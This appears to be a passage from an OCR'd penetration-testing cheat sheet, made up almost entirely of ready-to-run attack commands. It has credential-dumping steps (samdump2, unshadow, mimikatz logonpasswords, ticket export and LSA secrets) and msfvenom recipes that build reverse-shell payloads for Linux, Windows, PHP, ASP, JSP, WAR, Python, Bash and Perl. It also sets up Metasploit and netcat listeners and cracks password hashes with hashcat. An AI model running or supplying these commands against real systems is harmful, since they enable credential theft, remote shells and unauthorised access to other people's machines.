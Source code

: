 samdump2 System SAM > hashes
Linux
unshadow passwd shadow > hashes
MIMIKATZ
privilege::debug
sekurlsa::logonpasswords
sekurlsa::tickets /export

kerberos::list /export

vault::cred
vault::list

lsadump::sam
lsadump::secrets
lsadump::cache
MISCELLANEOUS
Get a Windows path without spaces
# path.cmd
@echo off
echo %~s1

path.cmd "C:\Program Files (x86)\Common Files\test.txt"
C:\PROGRA~2\COMMON~1\test.txt -> Valid path without spaces
MSFVENOM PAYLOAD
Linux
msfvenom -p linux/x86/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f elf > shell.elf
Windows
msfvenom -p windows/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe > shell.exe
PHP
msfvenom -p php/reverse_php LHOST=<IP> LPORT=<PORT> -f raw > shell.php

Then we need to add the <?php at the first line of the file so that it will execute as a PHP webpage
cat shell.php | pbcopy && echo '<?php ' | tr -d '\n' > shell.php && pbpaste >> shell.php
ASP
msfvenom -p windows/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f asp > shell.asp
JSP
msfvenom -p java/jsp_shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f raw > shell.jsp
WAR
msfvenom -p java/jsp_shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f war > shell.war
Python
msfvenom -p cmd/unix/reverse_python LHOST=<IP> LPORT=<PORT> -f raw > shell.py
Bash
msfvenom -p cmd/unix/reverse_bash LHOST=<IP> LPORT=<PORT> -f raw > shell.sh
Perl
msfvenom -p cmd/unix/reverse_perl LHOST=<IP> LPORT=<PORT> -f raw > shell.pl
Listener
Metasploit
use exploit/multi/handler
set PAYLOAD <PAYLOAD>
set LHOST <LHOST>
set LPORT <LPORT>
set ExitOnSession false
exploit -j -z
Netcat
nc -lvp <PORT>
PASSWORD CRACKING
Online
Decrypt MD5, SHA1, MySQL, NTLM, SHA256, SHA512 hashes
https://hashes.com/en/decrypt/hash
Hashcat
Linux password
hashcat -m 1800 -a 0 hash.txt rockyou.txt